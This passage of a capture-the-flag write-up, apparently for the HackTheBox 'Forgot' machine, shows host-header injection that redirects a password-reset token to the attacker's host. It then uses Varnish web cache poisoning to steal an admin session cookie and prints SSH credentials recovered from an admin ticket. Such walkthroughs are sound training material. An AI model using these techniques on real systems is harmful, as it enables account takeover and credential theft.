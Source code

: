 ```shell

# you can alternatively send a request using the terminal
curl 'http://10.10.11.188/forgot?username=robert-dev-87120' -H 'Host: 10.10.14.87:8001'
```
![Host Header Injection](/images/forgot/forgot03.png "Host Header Injection")

Now use this token and reset the password from the browser to a new password: `P@sSw0r)`
![Reset User Password](/images/forgot/forgot04.png "Reset User Password")

Investigated all the tabs on the logged-in page. On the Tickets tab noticed a ticket 'SSH Credentials are not working for Jenkins Slave machine' reported by 'Diego (Devops Lead)' in 'Escalated' status. On the Escalate tab we see the form for submitting tickets. The Tickets(escalated) tab is disabled which on inspection shows it maps to `/admin_tickets` with an anchor tag `class="disabled"`. Intercepted the `/escalation` page and investigated it. From existing knowledge Host header attack works on some vulnerability type of which [web cache poisoning](https://www.invicti.com/learn/web-cache-poisoning/) is one and the application uses varnish cache.

![Forgot Ticket and Escalate Tabs](/images/forgot/forgot05.png "Forgot Ticket and Escalate Tabs")

![Intercept Escalate URL](/images/forgot/forgot06.png "Intercept Escalate URL")

Our enumeration revealed the application is using a [varnish cache](https://varnish-cache.org/intro/index.html#the-basics). Searched for varnish cache exploits and found [exploiting cache design flaw](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws), and [web cache poisoning](https://portswigger.net/web-security/web-cache-poisoning). Burp suite showed us a `/static` endpoint and cache are focused on storing static pages. Noticed that the application caches a non-existent page. We will craft a non-existent URL say `/static/error.png` or `/static/admin.css` and raise a ticket using the URL as the value for the Link box. Hopefully, the admin will click the link to understand our issue which inadvertently caches it such that when we visit the same link the returned content will contain the cookie of the admin since the application is serving us the cached content of the user that first visited the site.
```bash
# after the admin must have clicked the link, request the URL again and get the admin cookie
curl -s -I http://10.10.11.188/static/payload.css
#--snip--#
HTTP/1.1 404 NOT FOUND
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Sat, 18 Mar 2023 10:08:01 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 207
Set-Cookie: session=0bcdf31d-00fe-44c9-acb6-e074d478cec7; HttpOnly; Path=/
cache-control: public, max-age=240
X-Varnish: 327750 163926
Age: 1193
Via: 1.1 varnish (Varnish/6.2)
Connection: keep-alive

# request the disabled /admin_tickets with above cookie. you can also use the browser. see forgot09
curl http://10.10.11.188/admin_tickets -H 'Cookie: session=0bcdf31d-00fe-44c9-acb6-e074d478cec7' | html2text      # see forgot08
<<SNIP
****** Admin Tickets ******
Issue               Reported By         Link               Reason
                                                           I've tried with
SSH Credentials are                                        diego:dCb#1!x0%gjq.
not working for                         http://forgot.htb/ The automation tasks
Jenkins Slave       Diego (Devops Lead) tickets/102        has been blocked due
machine                                                    to this issue.
                                                           Please resolve this
                                                           at the earliest
SNIP

# log in via ssh
```